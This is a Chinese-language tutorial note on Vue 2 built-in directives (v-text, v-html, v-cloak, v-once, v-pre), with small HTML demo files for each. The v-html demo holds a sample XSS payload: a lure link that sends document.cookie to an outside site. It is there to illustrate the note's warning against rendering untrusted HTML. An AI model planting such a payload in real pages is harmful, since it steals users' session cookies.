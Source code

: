 ```yaml
---
title: 内置指令
date: 2022-08-17 17:24:25
permalink: /pages/8afcf6/
categories:
  - 编程世界
  - Vue-22年重学笔记
  - 基础知识
tags:
  -
---
```


## ` 笔记 `

本文将笔记统一前置整理：

::: v-pre
我们学过的指令：

- `v-bind:` 单向绑定解析表达式，可简写为 `:xxx`
- `v-model:` 双向数据绑定
- `v-for:` 遍历数组/对象/字符串
- `v-on:` 绑定事件监听，可`简写为 @`
- `v-if:` 条件渲染(动态控制节点是否存在)
- `v-else:` 条件渲染(动态控制节点是否存在)
- `v-show:` 条件渲染(动态控制节点是否展示)
- `v-text` 指令：
  - 作用： 向其所在的节点中渲染文本内容
  - 与插值语法的区别：`v-text 会替换掉节点中的内容，{{xx}}则不会`
- `v-html` 指令：
  - 作用：向指定节点中渲染包含 html 结构的内容。
  - 与插值语法的区别：
    1.  `v-html 会替换掉节点中所有的内容，{{xx}}不会`
    2.  v-html 可以识别 html 结构
  - `严重注意：`v-html 有安全性问题！！！
    1.  在网站上动态渲染任意 html 是非常危险的，容易导致 XSS 攻击。
    2.  一定要在可信的内容上使用 v-html，永远不要在用户提交的内容上使用 v-html。
- `v-cloak` 指令(没有值)：
  - 本质上是一个特殊属性，Vue 示例创建完毕并接管容器后，会删掉 v-cloak 属性。
  - 使用 css 配合 v-cloak 可以解决网络慢时页面展示出{{xx}}插值语法的问题.
- `v-once`
  - v-once 所在节点在初次动态渲染后，就视为静态内容了。
  - 以后数据的改变不会引起 v-once 所在结构的更新，可以用于优化性能。
- `v-pre 指令：`
  - 跳过其所在节点的编译过程
  - 可利用它跳过：没有使用指令语法，没有使用插值语法的节点，会加快编译
  :::

## v-text 指令

### ` 代码 `

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>内置指令v-text</title>
    <script src="../js/vue.js"></script>
</head>
<body>

    <!-- 准备好一个容器 -->
    <div id="root">
        <div>你好，{{name}}</div>
        <div v-text="name"></div>
        <div v-text="str"></div>
    </div>

    <script type="text/javascript">
        Vue.config.productionTip = false; // 禁用提示
        new Vue({
            el: '#root',
            data: {
                name:'eryajf',
                str:'<h3>你好<h3>'
            }
        });
    </script>
</body>
</html>
```

## v-html 指令

### ` 代码 `

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>内置指令-v-html</title>
    <script src="../js/vue.js"></script>
</head>
<body>

    <!-- 准备好一个容器 -->
    <div id="root">
        <div>你好，{{name}}</div>
        <div v-text="str"></div>
        <div v-html="str2"></div>
    </div>

    <script type="text/javascript">
        Vue.config.productionTip = false; // 禁用提示
        new Vue({
            el: '#root',
            data: {
                name:'eryajf',
                str:'<h3>你好<h3>',
                str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
            }
        });
    </script>
</body>
</html>
```

## v-cloak 指令

### ` 代码 `

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>内置指令-v-cloak</title>
    <style>
        [v-cloak]{
            display: none;
        }
    </style>
</head>
<body>

    <!-- 准备好一个容器 -->
    <div id="root">
        <div v-cloak>{{name}}</div>
    </div>
    <script type="text/javascript" src="http://localhost:8080/resource/5s/vue.js"></script>
</body>

    <script type="text/javascript">
        console.log('1');
        Vue.config.productionTip = false; // 禁用提示
        new Vue({
            el: '#root',
            data: {
                name:'eryajf',
            }
        });
    </script>
</html>
```

## v-once 指令

### ` 代码 `

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>内置指令-v-once</title>
    <script src="../js/vue.js"></script>
</head>
<body>

    <!-- 准备好一个容器 -->
    <div id="root">
        <h2 v-once>原始的n值为:{{n}}</h2>
        <h2>当前的n值为:{{n}}</h2>
        <button @click="n++">点我给n加1</button>
    </div>

    <script type="text/javascript">
        Vue.config.productionTip = false; // 禁用提示
        new Vue({
            el: '#root',
            data: {
                n:1
            }
        });
    </script>
</body>
</html>
```

## v-pre 指令

### ` 代码 `

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>内置指令-v-pre</title>
    <script src="../js/vue.js"></script>
</head>
<body>

    <!-- 准备好一个容器 -->
    <div id="root">
        <h2 v-pre>Vue其实很简单</h2>
        <h2>当前的n值为:{{n}}</h2>
        <button @click="n++">点我给n加1</button>
    </div>

    <script type="text/javascript">
        Vue.config.productionTip = false; // 禁用提示
        new Vue({
            el: '#root',
            data: {
                n:1
            }
        });
    </script>
</body>
</html>
```
